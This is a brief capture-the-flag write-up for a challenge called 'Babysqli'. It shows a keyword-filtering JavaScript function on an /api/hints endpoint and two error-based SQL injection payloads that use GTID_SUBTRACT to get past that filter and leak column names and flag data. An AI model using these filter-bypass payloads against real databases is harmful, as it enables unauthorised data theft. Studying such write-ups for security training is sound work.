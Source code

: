 # Babysqli

- Description told me, this is not the finished web server.
- As I know, the hints feature doesn't implemented yet.
- But there were two backend api path.
    - /api/captcha
    - /api/hints
- /api/hints has a error based sqli vulnerability, but there were so many filters.

```javascript
function checkHint (hint) {
  return ! / |;|\+|-|\*|\/|<|>|~|!|\d|%|\x09|\x0a|\x0b|\x0c|\x0d|`|gtid_subset|hash|json|st\_|updatexml|extractvalue|floor|rand|exp|json_keys|uuid_to_bin|bin_to_uuid|union|like|sleep|benchmark/ig.test(hint)
}
```

- Also there was a length limit. (<140)
- It was hard to exploit :(


## Payload

```
'or(select(GTID_SUBTRACT((select(group_concat(column_name))from(information_schema.columns)where(mid(table_name,true,true)='V')),true)))#
'or(select(GTID_SUBTRACT((select(ZSLRSrpOlCCysnaHUqCEIjhtWbxbMlDkUO)from(vhEFfFlLlLaAAaaggIiIIsSSHeReEE)),true)))#
```
